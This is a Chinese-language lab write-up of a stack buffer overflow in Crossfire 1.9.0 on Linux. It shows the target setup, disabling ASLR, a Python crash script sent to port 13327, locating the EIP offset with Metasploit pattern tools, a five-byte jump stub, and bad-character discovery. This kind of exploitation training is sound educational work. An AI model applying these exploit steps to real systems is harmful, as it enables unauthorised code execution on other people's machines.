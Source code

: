 ```yaml
---
title: crossfire&linux缓冲区溢出案例（三）
categories:
- buffer overflow
tags:
- buffer overflow
---
```


参考资料：[kali linux之edb--CrossFire缓冲区溢出](https://blog.csdn.net/zixuanfy/article/details/52578072)

Crossfire 1.9.0在接受socket连接的时候，有着bof漏洞。

## 搭建靶机

```
mkdir /usr/games    
#必须在该目录下运行crossfire，否则程序会报错
#Cannot open bmaps file /usr/games/crossfire/share/crossfire/bmaps: No such file or directory

cd /usr/games;wget www.offensive-security.com/crossfire.tar.gz;tar zxpf crossfire.tar.gz

cd crossfire/bin

gdb /usr/games/crossfire/bin/crossfire
run

---
当程序提示溢出错误的时候，可以运行run，输入y，重新调试程序

当需要重新运行的时候，可以结束进程重新运行。
pgrep crossfire | xargs kill -s 9
---
关闭ASLR
echo 0 > /proc/sys/kernel/randomize_va_space
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/1.PNG)

`Waiting for connections...`

面板最后出现了这样的语句，代表程序正常运行。

## （exp.py demo）让程序报错
开始调试bof漏洞
```
#!/usr/bin/python
import socket
host = "目标IP"
crash="\x41" * 4379

buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
data=s.recv(1024)
print data
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/2.PNG)
程序报错，段错误，返回地址被`0x41`填充

## 定位缓冲区大小
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 4379`

修改python脚本，crash="pattern_create生成的字符串"

运行后得到一个地址，`0x46367046`
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/3.PNG)

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4379 -q 46367046

[*] Exact match at offset 4368
```
缓冲区长度为4379，EIP地址为为4368后的4字节。

## 测试是否找到EIP地址
修改python脚本`crash="\x41" * 4368 + "B"*4 + "C"*7`

确保报错的是0x42424242，表示EIP地址被字符B所覆盖。确认找到了EIP指令寄存器的位置。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/4.PNG)

## 找出shellcode占用的空间
edb 

运行linux平台，图形化界面的调试器。图形化界面方便同时观察所有寄存器的状态。

点击图中的run按钮，运行crossfire程序，然后运行exp.py让程序报错。

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/6.PNG)

在崩溃的时候，我们再次检查任何可能帮助我们找到buffer的寄存器。

选中EAX寄存器，右键 follow in dump，即可跳转到EAX所指地址。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/7.PNG)

在这个案例中，EAX寄存器看起来指向buffer的起始位置，包含了字符串“setup sound ”

但是EAX寄存器没有直接跳转到缓冲区（缓冲区的起始地址以A字符串开头），这可能会影响执行exp，导致失败。

在这种情况下，跳转到EAX可能实际上对我们有用。 但是，这不是一个很好的解决方案。 咱们试试更难的方案。

## 提高exp可用性
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/8.PNG)

看起来ESP寄存器指向了缓冲区的C地址，在崩溃的时候，没有给我们足够的空间放置shellcode。不像之前的slmail bof案例, 在程序崩溃之后，只写入了“cccccccc”这么几个字符。这暗示着我们，只能把shellcode放置在大小为4368的缓冲区之中。

然而，在崩溃时，我们可以使用ESP寄存器指向的字节，来创建第一个阶段的shellcode。它可以使得ESP寄存器与缓冲区的A字符起始位置对齐，跳过字符串“setup sound"

为了达到这个目的，我们第一阶段的shellcode将会需要添加12比特给EAX寄存器，然后跳转到EAX。让我们看看这个shellcode demo是怎样的。

```
nasm_shell 汇编指令转十六进制

/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
add eax,12
jmp eax
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/5.PNG)

然后写成16进制即可。幸运的是，这两个指令只用了5字节的内存——`\x83\xc0\x0c\xff\xe0`

## 发现坏字符
和[上一篇](https://whale3070.github.io/buffer%2520overflow/2020/01/15/03-x/)类似，发送[exp.py](https://raw.githubusercontent.com/Whale3070/ctf-coding/master/badchar-bof.py)

注意crash中exp的写法，`crash= badchars + "\x41" * 4368`

第一段是坏字符，目的是检查是否有badchar截断后续的字符。
第二段目的是覆盖返回地址，使得程序报错，方便调试。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/9.PNG)

点击图中的EBP寄存器，extended base pointer，它总是指向栈底。右键follow in dump，来跳转到EBP指向的地址。

发现有规律的字符`01 02 03 04 05 06 07 08`，失去了`09`，说明它是坏字符。

删除exp.py中 `\x09`，重复以上操作。发现坏字符`\x0a`

删除exp.py中 `\x0a`，重复以上操作。发现坏字符`\x20`

`\x00\x09\x0a\x20`   是坏字符

badchar坏字符跟操作系统、程序有关，不同的系统运行坏字符可能并不相同。

